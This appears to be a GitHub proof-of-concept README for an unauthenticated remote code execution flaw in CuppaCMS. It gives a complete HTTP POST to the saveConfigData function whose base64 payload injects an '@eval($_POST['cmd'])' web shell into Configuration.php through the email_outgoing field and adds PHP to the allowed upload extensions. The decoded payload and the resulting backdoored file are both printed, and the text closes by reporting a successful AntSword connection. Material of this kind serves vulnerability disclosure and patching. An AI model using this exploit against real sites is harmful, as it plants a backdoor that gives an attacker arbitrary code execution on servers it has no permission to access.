


# CuppaCMS_RCE
An Unauthorized attacker can execute arbitrary php code leading to unauthorized remote code execution
#### Default Configuration.php
```php
<?php 
	class Configuration{
		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "root";
		public $administrator_template = "default";
		public $list_limit = "25";
		public $font_list = "Raleway";
		public $secure_login = "0";
		public $secure_login_value = "";
		public $secure_login_redirect = "";
		public $language_default = "en";
		public $country_default = "us";
		public $global_encode = "sha1Salt";
		public $global_encode_salt = "1zSWYtL0Yn5e4Ps8MS9UERbmfznt7Ivq";
		public $ssl = "0";
		public $lateral_menu = "expanded";
		public $base_url = "";
		public $auto_logout_time = "30";
		public $redirect_to = "false";
		public $table_prefix = "cu_";
		public $allowed_extensions = "*.gif; *.jpg; *.jpeg; *.pdf; *.ico; *.png; *.svg;";
		public $upload_default_path = "upload_files";
		public $maximum_file_size = "5242880";
		public $csv_column_separator = ",";
		public $tinify_key = "";
		public $email_outgoing = "";
		public $forward = "";
		public $smtp = "0";
		public $email_host = "";
		public $email_port = "";
		public $email_password = "";
		public $smtp_security = "";
		public $code = "";
	} 
?>
```

#### poc
```bash
POST http://127.0.0.1:89/classes/ajax/Functions.php HTTP/1.1
Host: 127.0.0.1:89
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 1107
Cookie: country=us; language=en; administrator_document_path=%2F

file=eyJhZG1pbmlzdHJhdG9yX3RlbXBsYXRlIjoiZGVmYXVsdCIsImxpc3RfbGltaXQiOiIyNSIsImZvbnRfbGlzdCI6IlJhbGV3YXkiLCJzZWN1cmVfbG9naW4iOiIwIiwic2VjdXJlX2xvZ2luX3ZhbHVlIjoiIiwic2VjdXJlX2xvZ2luX3JlZGlyZWN0IjoiIiwibGFuZ3VhZ2VfZGVmYXVsdCI6ImVuIiwiY291bnRyeV9kZWZhdWx0IjoidXMiLCJnbG9iYWxfZW5jb2RlIjoic2hhMVNhbHQiLCJnbG9iYWxfZW5jb2RlX3NhbHQiOiIxelNXWXRMMFluNWU0UHM4TVM5VUVSYm1mem50N0l2cSIsInNzbCI6IjAiLCJsYXRlcmFsX21lbnUiOiJleHBhbmRlZCIsImJhc2VfdXJsIjoiIiwiYXV0b19sb2dvdXRfdGltZSI6IjMwIiwicmVkaXJlY3RfdG8iOiJmYWxzZSIsImhvc3QiOiJsb2NhbGhvc3QiLCJkYiI6ImN1cHBhIiwidXNlciI6InJvb3QiLCJwYXNzd29yZCI6InJvb3QiLCJ0YWJsZV9wcmVmaXgiOiJjdV8iLCJhbGxvd2VkX2V4dGVuc2lvbnMiOiIqLmdpZjsgKi5qcGc7ICouanBlZzsgKi5wZGY7ICouaWNvOyAqLnBuZzsgKi5zdmc7Ki5waHAiLCJ1cGxvYWRfZGVmYXVsdF9wYXRoIjoidXBsb2FkX2ZpbGVzIiwibWF4aW11bV9maWxlX3NpemUiOiI1MjQyODgwIiwiY3N2X2NvbHVtbl9zZXBhcmF0b3IiOiIsIiwidGluaWZ5X2tleSI6IiIsImVtYWlsX291dGdvaW5nIjoiXCI7fUBldmFsKCRfUE9TVFsnY21kJ10pO2NsYXNzIGZjey8vIiwiZm9yd2FyZCI6IiIsInNtdHAiOiIwIiwiZW1haWxfaG9zdCI6IiIsImVtYWlsX3BvcnQiOiIiLCJlbWFpbF9wYXNzd29yZCI6IiIsInNtdHBfc2VjdXJpdHkiOiIiLCJjb2RlIjoiIn0%3D&function=saveConfigData
```
The parameter file is encoded by base64,after decoding is like this
```json
{"administrator_template":"default","list_limit":"25","font_list":"Raleway","secure_login":"0","secure_login_value":"","secure_login_redirect":"","language_default":"en","country_default":"us","global_encode":"sha1Salt","global_encode_salt":"1zSWYtL0Yn5e4Ps8MS9UERbmfznt7Ivq","ssl":"0","lateral_menu":"expanded","base_url":"","auto_logout_time":"30","redirect_to":"false","host":"localhost","db":"cuppa","user":"root","password":"root","table_prefix":"cu_","allowed_extensions":"*.gif; *.jpg; *.jpeg; *.pdf; *.ico; *.png; *.svg;*.php","upload_default_path":"upload_files","maximum_file_size":"5242880","csv_column_separator":",","tinify_key":"","email_outgoing":"\";}@eval($_POST['cmd']);class fc{//","forward":"","smtp":"0","email_host":"","email_port":"","email_password":"","smtp_security":"","code":""}
```
Code is injected into email_outgoing
```
\";}@eval($_POST['cmd']);class fc{//
```

Then the /Configuration.php will be changed like this
```php
<?php 
	class Configuration{
		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "root";
		public $administrator_template = "default";
		public $list_limit = "25";
		public $font_list = "Raleway";
		public $secure_login = "0";
		public $secure_login_value = "";
		public $secure_login_redirect = "";
		public $language_default = "en";
		public $country_default = "us";
		public $global_encode = "sha1Salt";
		public $global_encode_salt = "1zSWYtL0Yn5e4Ps8MS9UERbmfznt7Ivq";
		public $ssl = "0";
		public $lateral_menu = "expanded";
		public $base_url = "";
		public $auto_logout_time = "30";
		public $redirect_to = "false";
		public $table_prefix = "cu_";
		public $allowed_extensions = "*.gif; *.jpg; *.jpeg; *.pdf; *.ico; *.png; *.svg;*.php";
		public $upload_default_path = "upload_files";
		public $maximum_file_size = "5242880";
		public $csv_column_separator = ",";
		public $tinify_key = "";
		public $email_outgoing = "";}@eval($_POST['cmd']);class fc{//";
		public $forward = "";
		public $smtp = "0";
		public $email_host = "";
		public $email_port = "";
		public $email_password = "";
		public $smtp_security = "";
		public $code = "";
	} 
?>
```
Connect using AntSword

Successfully connected to the target

